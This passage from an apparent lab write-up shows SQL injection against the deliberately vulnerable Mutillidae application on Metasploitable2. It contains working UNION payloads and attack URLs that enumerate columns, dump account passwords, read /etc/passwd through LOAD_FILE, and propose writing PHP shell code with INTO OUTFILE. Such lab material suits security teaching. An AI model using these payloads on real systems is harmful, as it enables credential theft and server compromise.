 The url once executed will retrieve table names from the “owasp 10” database.

## Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the
most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table. image

![image](https://github.com/Thanikasreeb/sqlinjection/assets/119557910/cbd674a1-0657-47b7-b639-a0f288e0c63e)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,
column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-
info-php-submit-button=View+Account+Details

![image](https://github.com/Thanikasreeb/sqlinjection/assets/119557910/b7f16e5e-7ecd-4050-a567-17be485c6992)

Once we discovered all available column names, we can extract information from them by just adding those 
column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,
password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Thanikasreeb/sqlinjection/assets/119557910/695bf17c-79c3-46ae-b6f3-0c9324fe9978)

## Reading and writing files on the web-server

We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We 
will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords 
to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,
load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Thanikasreeb/sqlinjection/assets/119557910/e9505fa1-09a3-4212-ba9b-6b51ad8995d5)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by 
transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it
in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any
PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,
null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
